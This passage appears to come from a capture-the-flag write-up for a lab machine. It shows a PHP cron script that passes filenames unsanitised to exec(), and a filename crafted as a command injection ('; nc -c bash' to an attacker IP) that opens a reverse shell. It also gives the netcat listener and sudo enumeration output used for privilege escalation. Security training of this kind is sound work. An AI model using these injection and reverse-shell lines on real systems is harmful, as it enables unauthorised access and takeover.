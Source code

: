 ```text
if (!($check[0])) {
    echo "attack!\n";
    # todo: attach file
    file_put_contents($logpath, $msg, FILE_APPEND | LOCK_EX);exec("rm -f $logpath");
    exec("nohup /bin/rm -f $path$value > /dev/null 2>&1 &");
    echo "rm -f $path$value\n";
    mail($to, $msg, $msg, $headers, "-F$value");
  }
```

This passes the path of the file to the exec\(\) function and deletes it. Of course, no validation is being done on the input of the exec\(\) function and so we can abuse it to escalate privileges.

Change to the /var/www/html/uploads directory and create the following file.

```text
touch '; nc -c bash 10.10.14.12 3333'
```

The “;” will end the “rm” command in the exec\(\) function and run the nc command, which will send a reverse shell back to our machine.

Set up a listener to receive the reverse shell.

```text
nc -nlvp 3333
```

Wait for the cron job to run and we get a shell!

![](../images/max/766/1*OkP1WlM1QKT84lApLyJYSQ.png)

Convert the shell to a fully interactive shell and grab the user.txt flag.

![](../images/max/451/1*2VJG0HmFnJgPRxZFrriRkA.png)

We need to escalate our privileges to root. I downloaded the _LinEnum_ script and ran it. It looks like we can run the following file as root without a password.

```text
User guly may run the following commands on networked:
    (root) NOPASSWD: /usr/local/sbin/changename.sh[+] Possible sudo pwnage!
/usr/local/sbin/changename.sh
```

View the permissions on the file.
